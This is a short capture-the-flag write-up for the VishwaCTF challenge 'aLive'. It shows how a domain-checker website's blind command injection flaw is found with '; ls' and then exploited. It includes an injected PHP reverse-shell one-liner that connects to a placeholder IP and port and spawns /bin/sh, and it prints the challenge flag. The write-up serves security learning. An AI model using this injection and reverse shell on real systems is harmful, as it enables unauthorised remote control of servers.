



# aLive
> In my college level project I created this website that tells us if any domain/ip is active or not. But there is a catch.

## About the Challenge
We have been given a website that has a functionality to check our website is active or not



## How to Solve?
This website has a `Blind Command Injection` vulnerability. Because when I input `; ls` the website returned success instead of fail



But in this case, when I used `cat` command. The website returned `Something went wrong!`. So I decided to use reverse shell command

```
; php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh <&3 >&3 2>&3");'
```

And then read `flag.txt` file to obtain the flag



```
VishwaCTF{b1inD_cmd-i}
```